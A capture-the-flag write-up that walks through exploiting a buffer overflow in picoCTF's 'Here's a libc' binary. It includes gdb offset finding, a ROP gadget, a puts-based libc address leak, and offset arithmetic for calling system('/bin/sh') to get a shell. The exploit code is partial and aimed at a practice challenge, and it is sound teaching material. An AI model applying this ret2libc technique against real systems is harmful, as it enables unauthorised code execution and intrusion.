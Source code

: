 # Here's a libc challenge

## Category
Tags: #BinaryExploitation
Github Write-up: https://github.com/mr-r3bot/picoctf2021/tree/main/heres-a-libc
Link to challenge: https://play.picoctf.org/practice/challenge/179?category=6&page=1

## Setup

1. Identify libc version

```text
strings libc.so.6 | grep -i version

GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2) stable release version 2.27.
```

2. Grabbing the linker

- Need to find a `libc 2.27` to run the `vuln` binary

- Install `pwninit`

```text
cargo install pwninit
```

`pwnint` will fetch the libc version needed to run the library

- Specify the binary `vuln` to use linker `ld-2.27.so`  lib

`patchelf --set-interpreter ./ld-2.27.so ./vuln`

3. Check binary security

```text
checksec --format=cli --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   68 Symbols     No	0		0	vuln
```

=> There is no ASLR enabled for the binary
=> DEP enabled (W^X on stack)

## Explore

The binary is vulnerable to `Buffer Overflow` , because `scanf` function didn't check the length of allocated buffer

![[Pasted image 20210612173211.png]]

Run the binary with `gdb` , and send a pattern of `200` characters

```text
 Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x7a
$rbx   : 0x0
$rcx   : 0x00007ffff7af4264  →  0x5477fffff0003d48 ("H="?)
$rdx   : 0x00007ffff7dd18c0  →  0x0000000000000000
$rsp   : 0x00007fffffffe2a8  →  "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa[...]"
$rbp   : 0x6161616161616171 ("qaaaaaaa"?)
$rsi   : 0x00007ffff7dd07e3  →  0xdd18c0000000000a
$rdi   : 0x1
$rip   : 0x0000000000400770  →  <do_stuff+152> ret
$r8    : 0x79
$r9    : 0x0
$r10   : 0x0
$r11   : 0x246
$r12   : 0x1b
$r13   : 0x0
$r14   : 0x1b
$r15   : 0x0
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe2a8│+0x0000: "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa[...]"	 ← $rsp
0x00007fffffffe2b0│+0x0008: "saaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaaya[...]"
0x00007fffffffe2b8│+0x0010: "taaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffe2c0│+0x0018: "uaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffe2c8│+0x0020: "vaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffe2d0│+0x0028: "waaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffe2d8│+0x0030: "xaaaaaaayaaaaaaa"
0x00007fffffffe2e0│+0x0038: "yaaaaaaa"
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400769 <do_stuff+145>   call   0x400540 <puts@plt>
     0x40076e <do_stuff+150>   nop
     0x40076f <do_stuff+151>   leave
 →   0x400770 <do_stuff+152>   ret
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x400770 in do_stuff (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400770 → do_stuff()
```

Figure it out at which `offset` of the characters we starting to override the `RIP` register

```text
gef➤  pattern offset $rsp
[+] Searching '$rsp'
[+] Found at offset 136 (little-endian search) likely
[+] Found at offset 129 (big-endian search)
gef➤
```



## Planning 

We have to enable ASLR in gdb because GDB default not turn ASLR on. Because we want to remote exploit the system 

### How do we defeat ASLR ?
**Goal: Override Global Offset Table (GOT) and ret2libc**

=> We have to find a way to leak memory address of `function` from `libc` so we can return to (leak libc address )

Plan of attack:
- Use `puts` to leak an address
- We need to supply arguments to `puts` function (`puts` take one arguments)
- After we got the leaked address, we need to calculate the offset betwen the address function that we leaked and the function we want to return to (`system`)
- Get function execution `system(/bin/sh)` => remote shell

=> We can use ROP technique to do this( Return Oriented Programming )


## Exploit 
In x86_64 calling conventions (Linux) , arguments are place in order in the follow registers

```text
RDI (1st argument)
RSI (2nd argument)
RDX	(3rd argument)
```

Because we are using `puts` to leak memory of address and `puts` take one argument => We should find ROP gadgets that modify the `RDI` value

### Find ROP gadgets to leak memory address

```command
sudo pip3 install ROPgadget
ROPgadget --binary vuln

"""
0x0000000000400913 : pop rdi ; ret
"""
```

`scanf` function at GOT

![[Pasted image 20210612182817.png]]

`puts` function at PLT (executable address)

![[Pasted image 20210612183905.png]]



```python
scanf_got = 0x601038
pop_rdi = 0x400913
puts_at_glt = 0x400540
....
# leaked address
leaked_address = u64(p.recvline().strip().ljust(8, b"\x00")) # Add prefix to make it 8 bytes (suffix in Little Endian)
log.info(f"[+] Leaked: {hex(leaked_address)}")
```

=> Got a leak address with python script

### Calculate Offset
After our leak, we can calculate offset between the function that we leaked (`scanf`) and the function that we want (`system`)

1. Find `scanf` function offset in `libc`

```command
readelf -s libc.so.6 | grep scanf
...
2062: 000000000007b0b0   197 FUNC    GLOBAL DEFAULT   13 scanf@@GLIBC_2.2.5
...
```
2. Calculate base address of libc function
```python
scanf_offset_in_libc = 0x7b0b0
base_libc_address = leaked_address - scanf_offset_in_libc
```
3. Find `system` function offset in `libc`
```command
readelf -s libc.so.6 | grep system
...
1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
...
```
4. Get `system` address 
```python
system_offset_in_libc = 0x4f4e0
system_addres = base_libc_address + system_offset_in_libc
```
5. Find `/bin/sh` address in libc


Load `libc.so.6` in to **Ghidra/Cutter** (Reverse Engineering tools) and search `string` for `/bin/sh` and get the offset 

```python
bin_sh_offset = 0x2b40fa
bin_sh_address = base_libc_address + bin_sh_offset
```

### Problem ran into
1. Leak function

`scanf` is not a good function to leak an address, we change to `setbuf` function ( limited in what functions are availble in libc )


2. Stack Alignment

In modern Linux system, `libc` have certain instructions that require the Stack Pointer (RSP) be 16 by the line aka **Stack pointer's last digit is zero ( \x00 )** => If it's not zero, will return in SIG Fault

**Fix stack alignment** 
We add a `ret` instruction to the payload to fix stack alignment

What `ret` instruction do is it pop the value in the stack and modify `RSP+8`

```python
ret_instruction = 0x40052e
```